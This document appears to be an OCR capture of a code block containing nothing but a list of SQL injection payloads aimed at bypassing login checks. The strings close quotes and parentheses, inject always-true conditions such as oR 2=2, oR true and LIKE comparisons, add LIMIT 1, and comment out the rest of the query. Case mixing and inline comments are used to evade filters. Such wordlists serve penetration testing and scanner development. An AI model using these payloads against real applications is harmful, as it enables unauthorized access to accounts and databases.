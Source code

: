 ```
")oR"2"=("2
")oR"2"="2"oR("
")oR"2"="2"-- 2
")oR"2"="2"#
")oR"2"="2"/*
")oR 2=2-- 2
")oR 2=2#
")oR 2=2/*
")oR 2=2 oR("
")oR/**/2=2-- 2
")oR/**/2=2#
")oR/**/2=2/*
")oR/**/2=2/**/oR("
")oR(2)=2-- 2
")oR(2)=2#
")oR(2)=2/*
")oR(2)=(2)oR("
")oR"2"="2" LimIT 1-- 2
")oR"2"="2" LimIT 1#
")oR"2"="2" LimIT 1/*
")oR(2)=(2)LimIT(1)-- 2
")oR(2)=(2)LimIT(1)#
")oR(2)=(2)LimIT(1)/*
')oR true-- 2
')oR true#
')oR true/*
')oR true oR('
')oR(true)-- 2
')oR(true)#
')oR(true)/*
')oR(true)oR('
')oR/**/true-- 2
')oR/**/true#
')oR/**/true/*
')oR/**/true/**/oR('
")oR true-- 2
")oR true#
")oR true/*
")oR true oR("
")oR(true)-- 2
")oR(true)#
")oR(true)/*
")oR(true)oR("
")oR/**/true-- 2
")oR/**/true#
")oR/**/true/*
")oR/**/true/**/oR("
')oR'2'LiKE('2
')oR'2'LiKE'2'-- 2
')oR'2'LiKE'2'#
')oR'2'LiKE'2'/*
')oR'2'LiKE'2'oR('
')oR(2)LiKE(2)-- 2
')oR(2)LiKE(2)#
')oR(2)LiKE(2)/*
')oR(2)LiKE(2)oR('
")oR"2"LiKE("2
")oR"2"LiKE"2"-- 2
")oR"2"LiKE"2"#
")oR"2"LiKE"2"/*
")oR"2"LiKE"2"oR("
")oR(2)LiKE(2)-- 2
")oR(2)LiKE(2)#
```